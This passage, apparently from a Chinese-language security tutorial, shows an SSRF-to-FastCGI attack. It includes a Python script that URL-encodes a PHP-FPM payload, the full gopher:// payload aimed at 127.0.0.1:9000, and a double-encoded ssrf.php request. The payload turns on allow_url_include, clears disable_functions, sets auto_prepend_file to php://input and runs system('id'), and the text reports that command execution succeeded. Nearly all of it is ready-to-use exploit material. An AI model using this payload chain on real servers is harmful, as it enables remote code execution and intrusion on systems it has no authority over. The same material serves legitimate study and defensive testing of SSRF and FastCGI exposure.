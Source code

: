 
文件里的内容有部分是不可见字符，这里需要url编码一下，这里写一个Python脚本对文件中的内容进行编码

```plain
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的python脚本生成如下payload：

```plain
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%14%04%00%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Ddisable_functions%20%3D%20%0Dsafe_mode%20%3D%20Off%0Dauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%00%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0D%27%29%3B%3F%3E
```

之后我们还要对上面的payload进行二次url编码，然后将最终的payload内容放到?url=后面发送过去（这里需要进行两次编码，因为这里GET会进行一次解码，curl也会再进行一次解码）：

```plain
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：

[![](assets/1698897074-faaa9d308c37bdc5e4cbe084f949d0ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-90055350-b2e5-1.png)
